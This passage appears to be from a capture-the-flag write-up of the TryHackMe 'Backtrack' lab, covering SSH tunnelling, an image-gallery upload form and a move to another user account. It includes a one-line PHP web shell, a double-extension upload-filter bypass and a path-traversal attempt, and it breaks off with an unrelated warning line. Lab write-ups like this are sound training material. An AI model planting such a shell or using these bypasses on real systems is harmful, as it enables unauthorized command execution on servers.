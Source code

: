 ### Shell as Orville
There's another file called `from_orville.txt` which contains a message and some credentials.

```console
wilbur@Backtrack:~$ cat from_orville.txt 
Hey Wilbur, it's Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I'd like you to test it yourself to see if everything works and secure.
I've started the app locally so you can access it from here. I've disabled registrations for now because it's still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : [REDACTED]
```

After running `linpeas` I saw that port 80 was running locally.

To access the local port 80 on the target, we can use **ssh** to create a **tunnel** to port 80 and access it on our own machine.

```console
m3ga@kali:~/tryhackme/Backtrack$ ssh -L 80:127.0.0.1:80 wilbur@10.10.8.14
wilbur@10.10.8.14's password: [REDACTED]
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-173-generic x86_64)
...
```

Navigating to `http://127.0.0.1`, we are greeted with `Orville's Gallery` website.

![](<Pasted image 20241012163115.png>){: w="700" h="300" .center }

I wrote a simply malicious `.php` code to upload.
```php
# shell.php
<?php
echo system($_GET['cmd']);
?>
```

Uploading php files doesn't seem to be allowed.
![](<Pasted image 20241012204214.png>){: w="700" h="300" .center }

We can bypass this by renaming the file `shell.php` to `shell.jpg.php` so that it includes "jpg" and gets passed the filter but **it's still a php file**.

After uploading it, it wasn't possible to execute it and it would just download the file. (This is done by modifying the `.htaccess` file for `apache`).
![](<Pasted image 20241012204117.png>){: w="700" h="300" .center }

However, we know that there are php files within the **root directory** of the webserver and they ARE being executed. What if we could upload our shell to the parent directory (`../uploads`)? 


Trying this with burp-suite, I was unsuccessful. It was still being uploaded, to the `/uploads` directory. This could mean that there are filters removing `../`.


[WARNING]: provided hosts list is empty, only localhost is available. Note that